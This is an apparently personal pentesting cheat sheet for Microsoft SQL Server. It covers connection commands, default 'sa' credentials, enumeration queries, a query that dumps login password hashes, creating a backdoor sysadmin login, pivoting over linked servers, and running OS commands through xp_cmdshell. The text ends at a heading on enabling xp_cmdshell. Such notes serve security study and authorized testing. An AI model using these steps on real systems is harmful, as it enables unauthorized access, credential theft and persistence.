 - **Linux auth:**

  If credentials are known:

  ```bash
  mssqlclient.py [domain]/[USER]@[IP] -windows-auth
  ```

- **Windows Authentication** 

  - Usinf `sqsh`:

    ```cmd
    sqsh -S 10.129.20.13 -U username -P pass
    ```

  - To connect with windows authentication:

    ```cmd
    sqlcmd -S localhost -E
    ```

  - with the server authentication;

    ```cmd
    sqlcmd -S localhost -U your_username -P your_password 
    ```

  - The interaction is the same as below, but you need to run `GO` after every command.

- **Default credentials:** `sa` and empty passwd 

```bash
# Get Server Name
SELECT @@SERVERNAME AS ServerName;
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
#Read tables
SELECT * FROM yourTableName;
#Read a specific row with a certain column value
SELECT * FROM yourTableName WHERE columnName = 'specificValue';
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

#Enumerate links
enum_links
#Use a link
use_link [NAME]

# Execute commands (if enabled)
xp_cmdshell "whoami"
# Enable xp_cmdshell (with appropriate privileges) impacket:
```